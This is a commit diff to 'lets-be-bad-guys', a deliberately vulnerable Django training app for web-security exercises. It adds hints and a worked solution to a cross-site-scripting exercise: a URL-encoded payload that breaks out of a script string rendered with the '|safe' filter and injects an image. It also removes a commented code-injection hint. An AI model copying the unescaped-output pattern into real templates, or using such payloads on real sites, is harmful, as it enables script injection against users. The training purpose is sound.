

Before and after one commit to mpirnat/lets-be-bad-guys, a Django app: page /cross-site-scripting/query-params in a window 1280 px wide. Shown: the top 696 px of the page, without its empty margins (108-1156 px from the left). Run offline with Django 3.2, Linux system fonts and the light colour scheme.

Commit message:
Adds a few more solutions

```diff
--- a/badguys/vulnerable/views.py
+++ b/badguys/vulnerable/views.py
@@ -71,9 +71,6 @@ def code_execution(request):
     return render(request, 'vulnerable/injection/code_execution.html',
             {'first_name': request.POST.get('first_name', ''), 'msg': msg})
 
-    # maybe put this is some sort of hints
-    # solution: >>> import base64
-    #           >>> base64.encodestring("file('/tmp/p0wned.txt', 'w').write('boom!')")
 
 ## 02 - Broken Authentication & Session Management
 
--- a/badguys_project/static/css/site.css
+++ b/badguys_project/static/css/site.css
@@ -1,5 +1,4 @@
 .answer, .hints, .solution {
-    width: 75%;
     margin-top: 10px;
     padding: 10px;
 }
@@ -49,3 +48,7 @@ hgroup h1 {
 hgroup h2 {
 	font-size: 14pt;
 }
+
+.hidden {
+    display: none;
+}
--- a/badguys_project/templates/vulnerable/xss/query.html
+++ b/badguys_project/templates/vulnerable/xss/query.html
@@ -11,40 +11,61 @@
 in our pages. How easy is it to exploit?</p>
 
 <p>In this exercise you must add a new &lt;img&gt;element to the DOM. The
-source for the image needs to be 'http://test/image.jpg' exactly.</p>
+source for the image needs to be 'http://test/image.jpg' exactly. Bonus points
+if you figure out how to hide the image from the end user.</p>
 
 <div id="result"></div>
 
-<p>Some helpful hints:</p>
-<ul>
-    <li>Look at the HTML and compare it to the query params.</li>
-    <li>Your JavaScript must be escaped.</li>
-    <li>document.createElement, .setAttribute and document.body.appendChild are your friends.</li>
-    <li>Remember to terminate the statement you are trying to hijack.</li>
-</ul>
+<div class="hidden hints panel">
+    <p>This page has not yet been hacked. Some helpful hints:</p>
+    <ul>
+        <li>Look at the HTML and compare it to the query params</li>
+        <li>Your JavaScript must be escaped</li>
+        <li><code>document.createElement</code>, <code>.setAttribute</code> and <code>document.body.appendChild</code> are your friends.</li>
+        <li>Remember to terminate the statement you are trying to hijack</li>
+    </ul>
+    <a class="tiny button" id="show_solution">show solution</a>
+</div>
+<div class="solution panel">
+    <h4>Solution</h4>
+    <p>The correct URL looks like:</p>
+    <p><a href="/cross-site-scripting/query-params?qs=%22%3Bvar%20i%3Ddocument.createElement%28%27img%27%29%3Bi.src%3D%27http%3A//test/image.jpg%27%3Bdocument.body.appendChild%28i%29%3B%22">click here</a></p>
+    <p>This querystring was created using interactive Python:</p>
+    <p><code>
+        s = '''";var i=document.createElement('img');''' + \<br>
+        '''i.src='http://test/image.jpg';''' + \<br>
+        '''i.setAttribute('display', 'none');''' + \<br>
+        '''document.body.appendChild(i);"'''<br>
+        urllib.quote(s)
+        </code>
+    </p>
+</div>
 
+{% endblock %}
 
+{% block extra_js %}
+{{ block.super }}
 <script type="text/javascript">
     var myvar = "{{qs|safe}}";
 
     function find_hack_image() {
         for (var x=0; x<document.images.length; x++) {
-            if (document.images[\x].src == 'http://test/image.jpg')
-                return document.images[\x];
+            if (document.images[x].src == 'http://test/image.jpg')
+                return document.images[x];
         }
         return null;
     }
 
     var result = '';
     var img = find_hack_image();
-    if (!img) {
-        result = 'This page has not yet been hacked.';
-    } else if (img.style.display == 'none') {
-        result = '<strong>Sweeeeeet!</strong> You get bonus points, brown noser.';
-    } else {
-        result = '<strong>Success!</strong> You have added your own ' +
+    if (img && img.style.display == 'none') {
+        result = '<div class="answer panel"><p><strong>Sweeeeeet!</strong> You get bonus points, brown noser.</p></div>';
+    } else if (img) {
+        result = '<div class="answer panel"><p><strong>Success!</strong> You have added your own ' +
             'img to my page. For bonus points you should try to hide ' +
-            'it from the user.';
+            'it from the user.</p></div>';
+    } else if (myvar != 'awesome') {
+        $('.hints').removeClass('hidden');
     }
     document.getElementById("result").innerHTML = result;
 </script>
```
Also changed, not shown: badguys_project/templates/vulnerable/xss/form.html (+5 -4 lines), badguys_project/templates/vulnerable/xss/path.html (+10 -2 lines).
